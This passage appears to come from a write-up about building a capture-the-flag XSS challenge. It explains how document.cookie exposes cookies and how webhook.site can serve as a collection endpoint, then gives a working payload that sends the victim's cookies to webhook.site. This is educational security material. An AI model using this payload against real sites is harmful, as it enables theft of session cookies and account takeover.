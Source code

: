 I decided to maintain decency on the length filter to avoid ending up with comically long payloads.

At this point, all that's left is to build and deploy the challenge and see how it goes.

![Example of injecting a simple XSS with filters disabled in the challenge](./media/vid/FirstXSS.gif)

As expected, with the filters disabled, we can successfully exploit it. And steal a cookie?

##### Cookie stealing and webhooks
Cookies are a special type of header, and for this reason, there's a kind of shortcut in JavaScript that allows accessing them, namely the `document.cookie` property.

To successfully exfiltrate a user's cookies on the website, you need an endpoint reachable by the victim, which means exposing a server to make it accessible to anyone.

[Webhooks](https://en.wikipedia.org/wiki/Webhook) are... versatile things. For this challenge, a website like [webhook.site](https://webhook.site/) allows using them as if you were using your own server exposed to the outside world.

For a test, you can use a payload like this: `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`
